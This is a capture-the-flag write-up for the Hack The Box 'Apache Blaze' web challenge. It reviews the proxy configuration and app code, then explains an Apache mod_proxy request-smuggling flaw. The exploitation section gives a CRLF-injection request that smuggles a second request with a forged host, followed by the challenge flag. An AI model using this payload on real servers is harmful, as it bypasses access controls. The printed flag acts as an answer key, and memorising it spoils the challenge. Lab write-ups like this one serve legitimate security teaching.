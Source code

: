 ```yaml
---
title: Apache blaze - Hack The Box
date: 2024-12-09
---
```


# Apache Blaze

![Apache Blaze - thumbnail](/ctf/hack-the-box/challenges/web/apache-blaze/thumbnail.gif){width=250px height=100px style="display: block; margin: 0 auto"}

## Challenge description

Step into the ApacheBlaze universe, a world of arcade clicky games. Rumor has it that by playing certain games, you have
the chance to win a grand prize. However, before you can dive into the fun, you'll need to crack a puzzle.

## Challenge overview

This challenge presents a web application that acts as a front-end for various arcade games. The application proxies
requests to a back-end server, which hosts the games. To access the games, users must provide the game name as a query
parameter.

![Apache Blaze - Overview](/ctf/hack-the-box/challenges/web/apache-blaze/overview.png)

## Code Review

### Apache Configuration (`httpd.conf`)

  ```apache
  RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
  ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"
  ```

The `RewriteRule` directs requests matching `/api/games/(.*)` to the back-end at `http://127.0.0.1:8080/?game=$1`,
with the `[P]` flag indicating proxying. `ProxyPassReverse` adjusts response headers for the client.

### Python Application (`app.py`)

  ```python
  elif game == 'click_topia':
      if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
          return jsonify({
              'message': f'{app.config["FLAG"]}'
          }), 200
      else:
          return jsonify({
              'message': 'This game is currently available only from dev.apacheblaze.local.'
          }), 200
  ```

The application checks if the `game` parameter is `'click_topia'` and if the `X-Forwarded-Host` header equals
`'dev.apacheblaze.local'`. If both conditions are met, it returns a JSON response containing the flag.

### Vulnerability Analysis

The vulnerability arises from the interaction between `mod_rewrite` and `mod_proxy` in Apache, which can lead to HTTP
request smuggling. Specifically, improper input validation allows crafted requests to manipulate headers, causing the
back-end to misinterpret the request.

## Exploitation Steps

1. **Craft Malicious Request:**

   To exploit this, send a request that injects a newline (`%0d%0a`) to split headers, effectively smuggling a second
   request:

   ```
   GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
   ```

   This payload manipulates the request such that the front-end server interprets it as a single request, while the
   back-end sees two separate requests.

2. **Server Interpretation:**

    - **Front-End:** Processes the request up to the injected newline, treating it as a complete request.
    - **Back-End:** Interprets the portion after the newline as a new request with the `Host` header set to
      `dev.apacheblaze.local`.

3. **Flag Retrieval:**

   The back-end application, seeing the `Host` header as `dev.apacheblaze.local` and the `game` parameter as
   `click_topia`, returns the flag in its response:

   ```json
   {
       "message": "HTB{1t5_4ll_4b0ut_Th3_Cl1ck5}"
   }
   ```

## References

- [HTTP Request Smuggling - PortSwigger](https://portswigger.net/web-security/request-smuggling)
- [CVE-2023-25690 Proof of Concept](https://github.com/dhmosfunk/CVE-2023-25690-POC)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)